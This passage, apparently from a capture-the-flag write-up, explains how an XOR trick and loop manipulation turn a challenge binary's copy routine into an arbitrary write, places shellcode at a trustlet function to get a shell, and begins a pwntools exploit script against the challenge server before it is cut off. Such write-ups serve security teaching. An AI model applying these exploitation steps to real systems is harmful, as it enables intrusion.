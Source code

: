 `64 ^ 64` = 0. So we can change that second line to

```c
save_area = offsetted_function_data + 0;
```

So `save_area` = `offsetted_function_data` ! Also take a look at the third line of code (the for loop). It copies our input to the `offsetted_function_data` address.

And now for the finale; the final part of the puzzle with which all the above stuff will make sense. Look at the
part how data at the target is written -

```c
for ( m = 0; m < input_size; ++m )
    *(m + target) = *(m + save_area);
```

Ahhh! The target address is set using the `save_area`, but the `save_area` is the `offsetted_function_data` which has our input ! So we can write our (uncorrupted) input at an arbitrary address. But one last snag still remains -

```c
a = 0;
b = 62;
for ( l = 0; input_size > l; ++l )
{
  a = (a + 1);
  b = (rand_val_array[a] + b);

  // Ignore the Swapping part

  v9 = rand_val_array[(rand_val_array[a] + rand_val_array[b])];
  *(l + save_area) = v9 ^ *(l + target);
}
```

This corrupts the `save_area`. But this is not an issue now. We just xor the initial value of `l` (the loop variable) with 64 to get the loop as -

```c
for ( l = 64; input_size > l; ++l )
{
  :
  :
```

So provided that our `input_size` is less than 64, we are done !

All that is left is to give a shellcode as an input and decide on a target address. We gave the target address as the `func_g` of this trustlet (index = 1). So our shellcode got copied to `func_g`. Now on running `func_g` we get shell !!!

Here is the full exploit -

```python
from pwn import *

binary = ELF("./MicroServiceDaemonOS")
context.binary = binary

s = lambda x: io.send(str(x))
sa = lambda x, y: io.sendafter(str(x), str(y))
sla = lambda x, y: io.sendlineafter(str(x), str(y))
sl = lambda x: io.sendline(str(x))
r = lambda x: io.recv(x)
ru = lambda x: io.recvuntil(str(x))

if True:
    io = remote("microservicedaemonos.ctfcompetition.com", 1337)
else:
```